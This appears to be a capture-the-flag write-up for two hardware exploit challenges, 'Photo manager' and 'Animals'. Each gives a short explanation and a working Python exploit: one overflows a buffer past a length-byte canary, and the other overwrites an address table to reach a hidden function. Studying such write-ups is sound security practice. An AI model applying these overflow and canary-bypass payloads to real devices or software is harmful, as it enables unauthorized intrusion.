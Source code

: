 <a name="photo"></a>
## Photo manager (Exploit - 100 pts)
Only 2 selections for this one, the second selection allows you to know how many<br>
bytes are available, the first is waiting his overflow with the length computed
before.<br>
This overflow is protected by canary (or a kind of..) which is a byte
corresponding to the length..<br>
Then we fuzz the following byte and we got the flag with 0xff :).

``` python
from rhme_serial import *

s = rhme_serial()
trash = s.xfer()
mem = s.xfer("2\n")
if len(mem):
    n = [int(a) for a in mem.split() if a.isdigit()]
    delta = n[0] - n[1] - 8
    print "mem: " + str(delta)
else:
    delta = 0

trash = s.xfer("1\n");
print s.xfer("\x30"*delta + chr(delta) + "\xff\n")
s.close()
```

<a name="animals"></a>
## Animals (Exploit - 200 pts)
You can select 1 of the 3 animals to display an ASCII art (cat, dog, mouse).<br>
First test, we sent dog+aaaaaaaaaa...(many times) until a memory dump.<br>
After analysing these bytes, we can understand that they correpond to a table
with different addresses (+ some parameters) used to display the picture.<br>
We can change the current selection by modifying the 2 bytes just after the 
overflow.<br>
Whatever, we can see & verify the following addresses associations:<br>
cat = 0x015e<br>
dog = 0x0158<br>
mouse = 0x0152<br>
??? =  0x014c (yeah)<br>
Replaced the last address is not enough, we need to set a kind of offset
defined by the next 2 bytes..<br>
After few tries, we got the following payload with python:
``` python
from rhme_serial import *

s = rhme_serial()
print s.xfer("dogaaaaaaaaaaaaaaaaa\x4c\x01\x6b\x03\r\n")
s.close()
```
and got the flag of course !
